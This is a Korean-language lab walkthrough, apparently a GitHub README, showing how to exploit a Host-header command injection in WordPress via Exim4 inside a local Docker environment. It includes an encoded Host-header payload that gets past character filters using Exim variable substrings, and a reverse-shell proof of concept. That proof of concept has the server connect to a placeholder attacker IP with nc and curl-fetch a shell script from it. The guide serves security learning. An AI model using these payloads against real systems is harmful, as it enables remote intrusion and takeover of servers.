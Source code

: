 그러면 Wordpress 서버에서 `/bin/touch /tmp/success`명령어가 실행되게 된다.
결과를 살펴보기 위해, Wordpress 서버에 터미널로 접속해보자.
```
docker exec -it pwnscriptum-web-1 /bin/bash
ls /tmp
```
![](1-4.PNG)
위의 명령어들을 입력해보면, /tmp 경로에 success라는 빈 파일이 생성된 것을 확인할 수 있다.
이로써, **Host 헤더에 명령어를 삽입하여 Wordpress 서버에서 원격으로 코드를 실행하는 공격이 가능함을 증명하였다.**

넘어가기에 앞서, Host 헤더에 들어가는 **command의 제약조건**에 대해 알아보자.<br>
위의 코드를 살펴보면, `/bin/touch /tmp/success`라는 명령어를, `${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success`처럼 길게 변형해서 Host 헤더에 넣어준 것을 볼 수 있다.<br>
이는 Host 헤더에 들어가는 command에 다음과 같은 제약조건이 붙기 때문이다.<br>
- 몇몇 **특수 문자**들을 포함할 수 없다. ex) `:`, `'`, `"`, etc.
- 명령어는 모두 **소문자로 변환**된다. 즉, 대문자를 사용할 수 없다.
- 명령어에 사용되는 모든 것은 **절대 경로로 입력**되어야 한다. 심지어 명령어도 명령어의 절대 경로 형태로 입력하여야 한다. ex) `/bin/touch /tmp/success`
- 따라서, `/`과 공백(Space)을 사용할 수 없는 환경이고, 이를 사용하기 위해선 **우회 기법**을 사용해야 한다.<br>
본 가이드에서는 이를 우회하는 방법으로, Exim4에서 사용하는 변수들의 값에서 substring을 얻는 방식을 사용한다.<br>
```
sendmail -be '${spool_directory}'
> /var/spool/exim4
```
```
sendmail -be '${tod_log}'
> 2023-10-25 17:24:34
```
Wordpress 서버의 터미널에서 해당 명령어들을 입력해보면, 다음과 같이 `/var/spool/exim4`, `2023-10-25 17:24:34`형태의 값을 확인할 수 있는데, **이 값에서 substr를 통해 `/`와 공백(Space) 문자를 얻을 수 있다.** (추후에 `:`문자에 대한 우회도 이 방식을 사용한다.)
<br/>

## 2. 리버스 쉘 획득 PoC
이번에는 실제 공격에 사용될 수 있을 만큼 유용한 예시를 살펴볼 것이다.<br>
이 취약점을 이용해서 서버에 원격으로 코드를 실행시킬 수 있다면, 서버 측에서 공격자 IP에 접속하여 쉘을 제공하는 형태인 **리버스 쉘을 획득할 수 있다.**
```
<server>
nc {attacker IP} {attacker Port} -e /bin/sh

<attacker>
nc -lvp {attacker Port}
```
위와 같이, 공격자는 특정 port로 들어오는 접속을 **Listening**하고 있고, 서버 측에 `nc {attacker IP} {attacker Port} -e /bin/sh`를 **원격으로 실행**시키면, **서버가 공격자 주소로 접속하여 자신의 쉘을 실행시켜준다.** <br>
하지만, 저 명령어를 실행시키기 위해서는 수행해야하는 작업들이 많고, Host 헤더의 제약조건도 까다롭기 때문에, 본 가이드에서는 `nc {attacker IP} {attacker Port} -e /bin/sh`와 동일한 동작을 하는 일련의 명령어들을 **쉘 스크립트 형태**로 만들어서, 이를 공격자의 서버에 저장해 놓고, Wordpress 서버에서는 '**curl 명령어**'를 통해 이 스크립트 파일을 다운받아 실행시키는 방식으로 리버스 쉘 획득을 진행할 것이다.<br>
<br>
![](2-1.PNG)<br>
본 가이드에서 사용한 [쉘 스크립트 파일](sample-server/shell.sh)은 sample-server 폴더 내에 shell.sh라는 이름으로 제공된다.
쉘 스크립트의 내용을 요약하자면, 리버스 쉘을 획득할 때 보통 **nc 명령어의 -e옵션**을 사용하는데, 기본적으로 설치되어 있는 nc 명령어는 **-e옵션을 사용하지 못하도록 막아놓았다.** 따라서, **-e옵션을 쓰지 않으면서 -e옵션을 쓴 것과 동일한 동작을 하도록 만들어야 한다.** 본 가이드에서는 FIFO 장치 파일과 파이프라인 기능을 이용하여, (-e옵션처럼) 연결된 후 /bin/sh를 실행시키도록 스크립트를 만들었다.<br>
<br>
***참고 : 해당 스크립트를 사용할 때는, {your_ip} 부분을 자신의 IP 주소로 수정해야 한다.*** <br>